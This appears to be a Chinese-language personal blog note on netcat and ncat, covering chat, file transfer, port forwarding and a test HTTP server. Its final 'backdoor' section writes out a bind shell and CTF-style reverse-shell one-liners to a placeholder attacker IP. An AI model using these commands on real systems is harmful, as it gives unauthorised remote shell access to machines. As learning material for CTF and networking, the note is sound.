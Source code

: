 ```yaml
---
title: nc命令笔记
date: 2022-09-25 18:31:22
tag:
  - nc
  - ncat
  - shell
categories: 
- shell:

---
```



# 单聊
```shell script
# 服务端(收):
nc -l -k 8080
# 客户端(发):
nc 127.0.0.1 8080
```
双向聊天的话就开俩端口，互相监听；
`-l`就是listen、监听某个端口；
`-k`就是keep，不然客户端一断服务端也会关闭；keep的话服务端能保持不挂；

# 聊天室
这个可以安装一下nmap(`brew install nmap`)，然后就可以用ncat了:
```shell script
# 服务端以broker模式启动:
ncat -l 8888 --broker
```
然后多个客户端可以连到8888上聊天；（客户端用nc或ncat都行）

# 传输文件
(就是在聊天基础上加一个管道)
```shell script
# 接收方:
nc -l 8080 > out.jpeg
# 发送方:
nc 127.0.0.1 < WechatIMG104.jpeg
```

# 转发请求:
```shell script
mkfifo 2way
nc -k -l 8080 0<2way | nc 172.29.53.164 21445 1>2way
nc -k -l 8081 0<2way | nc 127.0.0.1 8080 1>2way
# 或
ncat -k -l 8080 0<2way | ncat 172.29.53.164 21445 1>2way
# 或
cat 2way | nc 172.29.53.164 21445 | nc -l 8080 > 2way
cat 2way | nc 127.0.0.1 8080 | nc -k -l 8081 > 2way
# 然后
echo -n "GET / HTTP/1.0\r\n\r\n" | nc -v -D 127.0.0.1 8080
```

## http服务
简单启动一个http服务方便测试:
```shell script
python -m SimpleHTTPServer 8081
```
然后在当前目录放上index.html就能返回文本给curl请求了。
这个在测试命令是否成功执行时能用，也能带回一些基本数据。


# 后门
其实就是转发端口上收到的东西到`/bin/bash`，从而执行命令:
```shell script
# 被控制端:
nc -l 8080 -e /bin/bash
# 控制端:
nc 127.0.0.1 8080
```
这个挺离谱的，试了一下可以ls目录，然后cd到某个目录里继续执行ls、回显结果。
感觉相当于为所欲为了。

CTF里的反向shell一般是先在自己的机器上:
```shell script
nc -nvlp 10086
```
然后想办法在目标机器上执行:
```shell script
bash -i >& /dev/tcp/<my_server_ip>/10086 0>&1
```
或者:
```shell script
nc -e /bin/sh <my_server_ip> 10086
```

# 参考资料
https://linux.cn/article-9190-1.html